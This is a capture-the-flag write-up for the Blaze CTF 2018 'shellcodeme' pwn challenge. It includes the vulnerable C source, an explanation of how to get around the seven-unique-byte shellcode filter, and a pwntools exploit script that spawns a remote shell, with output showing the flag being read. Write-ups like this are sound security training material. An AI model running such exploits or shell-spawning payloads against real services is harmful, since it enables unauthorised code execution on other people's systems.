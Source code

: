 [](ctf=blaze-2018)
[](type=exploit)
[](tags=game)
[](techniques=shellcode)

# shellcodeme (pwn-420)

```
Can you please smoke this?

nc shellcodeme.420blaze.in 420

Author : aweinstock

Solves : ~60
```

This challenge had a hard version too. The way I exploited this chall worked in the hard one too. So 2 flags for the work of one.
Source code was provided.

```c
// gcc -zexecstack -Os shellcodeme.c -o shellcodeme
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

#define BUF_SIZE (0x4096 & ~(getpagesize()-1))

int main() {
    setbuf(stdout, NULL);
    unsigned char seen[257], *p, *buf;
    void (*f)(void);
    memset(seen, 0, sizeof seen);
    buf = mmap(0, BUF_SIZE, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    puts("Shellcode?");
    fgets(buf, BUF_SIZE, stdin);
    fflush(stdin);
    for(p=buf; *p != '\n'; p++) {
        seen[256] += !seen[*p];
        seen[*p] |= 1;
    }
    if(seen[256] > 7) {
        puts("Shellcode too diverse.");
        _exit(1);
    } else {
        *(void**)(&f) = (void*)buf;
        f();
        _exit(0);
    }
}
```


4 rwx pages are mmaped on which we can copy our input(0x4000). The only catch is the shellcode can't contain more than 7 unique bytes.

```c
for(p=buf; *p != '\n'; p++) {
        seen[256] += !seen[*p];
        seen[*p] |= 1;
    }
```

This code iterates through each input byte and sums up the number of unique bytes in the shellcode. The `seen` table is very important for my strategy of exploitation.

![jmp](jmp.png)

At `0x40072d` the control is transferred to rbp using a `call`. I first tried to look at the context on that state and then use the registers to make a read `syscall` on an rwx page in the libc. However with the restriction in place I could not successfully jump to the page.

The next thought I had was to restart the execution of main such that we can bypass the check in place.

![exp](exp.png)

As I noticed that `memset` operation is done on `0x400699`, once the `seen` table has initialized we can skip doing it again in the second run. Jumping to anywhere after the memset operation should work. If we are able to corrupt the 256 byte count table in a way that unique count calculated is in our control then that would let us run arbirary code in the next run. So in the first run we can execute 'push' to setup the stack in such a way that seen[256] is overflowed back to < 7 in the next run.

Here's how I did it in 7 unique bytes:

    * `pop` the saved rip from the stack to a register(rbx) (+1 unique byte)
    * `dec` the 32bit variant of that register to make it 0x4006d2  (+2 unique bytes)
    * spray the stack by `push`ing the register to setup an already filled `seen`  (+1 unique bytes)
    * `inc rsp` to align `seen[256]` with 0xd2. will overflow this in the next run  (+2 unique bytes)
    * `ret` to get input again to the same page  (+1 unique bytes)
    * input a shellcode such that seen[256] is overflowed back to 0


```
from pwn import *

context(arch='amd64', os='linux', log_level='info')

payload = asm("pop rbx; "+("dec rbx; "*(0x72f-0x6d2))+("push rbx; "*64)+"inc rsp; jmp rbx")
payload2 = asm(shellcraft.amd64.linux.sh())+"".join(map(chr, range(100,157)))

s = remote("shellcodeme.420blaze.in",420)
raw_input()

s.sendline(payload)
s.sendline(payload2)

s.interactive()
s.close()
```


Output
```bash
$ python shellcodeme.py 
[+] Opening connection to shellcodeme.420blaze.in on port 420: Done

[*] Switching to interactive mode
Shellcode?
$ id
uid=1000(shellcodeme) gid=1000(shellcodeme) groups=1000(shellcodeme)
$ cat flag
blaze{g0lf3d_y0ur_sh3llc0d3's_un1qu3_byt3z}
$ 
[*] Closed connection to shellcodeme.420blaze.in port 420
```
